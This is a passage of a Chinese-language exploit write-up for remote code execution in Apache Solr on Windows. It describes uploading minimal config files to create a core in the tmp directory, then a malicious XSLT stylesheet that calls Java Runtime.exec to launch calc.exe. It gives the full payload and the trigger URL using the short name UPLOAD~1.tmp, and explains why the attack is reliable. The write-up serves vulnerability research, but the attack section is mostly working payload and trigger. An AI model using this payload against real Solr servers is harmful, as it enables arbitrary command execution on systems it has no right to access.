            

要创建核心，应用程序至少需要 2 个文件：solrconfig.xml 和
schema.xml。在真正的核心创建中，文件引用其他文件来加载，例如语言包。为了降低复杂性，这 2 个文件被修剪到最低限度。

           

![]()

(使用 tmp 目录中的 2 个上传文件创建核心)

           

           

 **0x04 来自 XSLT 文件的 RCE**

           

在 /tmp 目录中创建核心后，可以上传 XSLT 文件并安全触发。使用 PayloadAllTheThings
中可用的有效负载，获得任意命令执行非常简单。

          

  

  *   *   *   *   *   *   *   *   *   * 

    
    
    <xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"xmlns:fo="http://www.w3.org/1999/XSL/Format" xmlns:dyn="http://exslt.org/dynamic" extension-element-prefixes="dyn" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:sys="http://xml.apache.org/xalan/java/java.lang.System" xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"><xsl:output media-type="text/xml" method="xml" indent="yes"/><xsl:template match='/'><add><xsl:variable name="rtobject" select="rt:getRuntime()"/><xsl:variable name="process" select="rt:exec($rtobject,'calc.exe')"/><xsl:variable name="processString" select="ob:toString($process)"/><xsl:value-of select="$processString"/></add></xsl:template>[REDACTED]</xsl:stylesheet><!-- comments used to make the file bigger than 20kb AAAAAAAAAAAAAA[REDACTED]AAAAAAAAA-->

  

它将运行著名的 calc.exe。最后一次从以下 URL 触发 XSLT：

           

  * 

    
    
    http://localhost:8983/solr/new_core_tmp/select?q=*:*&wt=xslt&tr=../UPLOAD~1.tmp

  

           

![]()

  

           

 **0x05 关于临时文件的注意事项**

           

即使必须猜测上传文件的短名称，此漏洞也非常可靠，因为：

1、/tmp目录下的临时文件每小时删除一次。

2\. 当在/tmp 目录中创建恶意核心时，它会自动删除所有其他.tmp 文件。这是此漏洞利用的一个很好的功能，因为之后上传 XSLT 意味着它肯定可以通过
Windows 短名称 UPLOAD~1.tmp 访问。
